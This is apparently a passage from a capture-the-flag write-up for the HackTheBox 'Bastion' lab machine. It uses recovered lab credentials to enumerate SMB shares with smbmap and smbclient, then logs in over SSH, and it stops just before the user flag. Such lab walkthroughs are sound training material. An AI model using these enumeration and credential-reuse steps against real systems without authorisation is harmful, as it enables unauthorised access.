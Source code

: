 Using smbmap to check the permissions using the credentials, we realize that the permissions are pretty much still the same.

```
┌──(kali㉿kali)-[~]
└─$ smbmap -u "L4mpje" -p "bureaulampje" -H 10.10.10.134 
[+] IP: 10.10.10.134:445        Name: bastion.htb                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

Using smbclient to view the backups share, we also realize that they are still the same as well.

```
┌──(kali㉿kali)-[~]
└─$ smbclient -N //10.10.10.134/Backups -u "L4mpje" -p "bureaulampje"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 17 13:29:14 2022
  ..                                  D        0  Mon Jan 17 13:29:14 2022
  BCNLWYJAUX                          D        0  Sun Jan 16 03:07:04 2022
  BYDMNECSGO                          D        0  Sun Jan 16 03:06:41 2022
  CTPUWQROZS                          D        0  Sun Jan 16 02:20:26 2022
  HVOFBDPZAG                          D        0  Sun Jan 16 02:49:16 2022
  IVUJRPNACQ                          D        0  Sun Jan 16 02:48:53 2022
  nmap-test-file                      A      260  Sun Jan 16 02:21:32 2022
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  QNCREVUZAI                          D        0  Sun Jan 16 12:21:11 2022
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019
  XQFOZPGGAU                          D        0  Sun Jan 16 12:08:59 2022

                7735807 blocks of size 4096. 2706521 blocks available
```

However, we remember from our nmap output that there is a ssh terminal on port 22 for this machine. Let us try to use the credentials to authenticate into the ssh terminal. Fortunately, we are able to successfully authenticate into the ssh terminal.

```
Microsoft Windows [Version 10.0.14393]                                                                               
(c) 2016 Microsoft Corporation. All rights reserved.                                                                 

l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                
bastion\l4mpje 
```

Lastly, all that is left for us to do is to obtain the user flag.
